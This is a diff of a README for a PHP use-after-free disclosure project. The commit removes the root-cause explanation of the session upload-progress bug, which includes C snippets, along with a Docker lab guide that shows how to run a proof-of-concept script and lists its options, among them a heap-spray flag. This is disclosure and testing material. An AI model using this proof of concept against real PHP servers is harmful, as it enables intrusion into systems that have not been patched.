

Before and after one commit to PingPongPlus/php2shell, a Markdown page: README.md, the part around one of its changes. Shown at 85% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -27,72 +21,3 @@ PHP's `ext/session/session.c` rfc1867 upload-progress handler caches raw `zval*`
 | PHP 8.4 | 8.4.26 | **8.4.27** |
 | PHP 8.5 | 8.5.11 | **8.5.12** |
 | PHP ≤ 8.1 | all | no backport — EOL |
-
-### Root cause (session.c)
-
-```c
-// session.c:3292 — pointer cached into HashTable arData
-ZVAL_LONG(&tmp, 0);
-zend_hash_str_update(Z_ARRVAL_P(post_bytes_processed), ..., &tmp);   // <-- cached zval*
-
-// ... stall > min_freq ...
-
-// session.c:236-252 — track_init() frees the HashTable
-zend_array_destroy(Z_ARR_P(session_vars));   // arData freed here
-
-// session.c:3331 — write through stale cached pointer (UAF)
-ZVAL_LONG(post_bytes_processed, new_bytes);   // stale pointer write
-```
-
----
-
-## UAF Lab
-
-Reproduces the stale-pointer write on stock PHP-FPM (no ASAN, no debug build).
-
-### Requirements
-
-- Docker + Docker Compose
-- Python 3.8+
-
-### Quick start
-
-```bash
-# Clone and enter
-git clone https://github.com/syrex1013/php2shell
-cd php2shell/lab-uaf
-
-# Build and start
-docker compose up -d --build
-
-# Run the PoC (5 rounds, session monitor enabled)
-python3 scripts/php2shell_poc.py --monitor --rounds 5
-```
-
-Expected output:
-
-```
-── Round 1/5 ──
-    SID:     a043365f3b8b4cc6a5632fdefa8d1643
-    Status:  200 OK
-    Armed:   YES — bytes_processed = 5331
-    ► Cached zval* pointers were written through (stale path reached)
-```
-
-### PoC options
-
-```
-python3 scripts/php2shell_poc.py [OPTIONS]
-
-  -t HOST   Target host (default: 127.0.0.1)
-  -p PORT   Target port (default: 19268)
-  -s SEC    Stall duration in seconds; must be > min_freq (default: 1.5)
-  -r N      Number of trigger rounds (default: 1)
-  -m        Monitor mode — read session mid-stall to confirm arming
-  --spray N Heap spray: N dummy 256-byte file parts to exhaust the ZendMM
-            bin before arData is freed, raising the probability that the
-            stale write hits a live zend_string (type confusion → crash)
-  -v        Verbose
-  --verify  Verify lab configuration before triggering
-```
-
````
Also changed, not shown: other parts of README.md (+0 -51 lines).
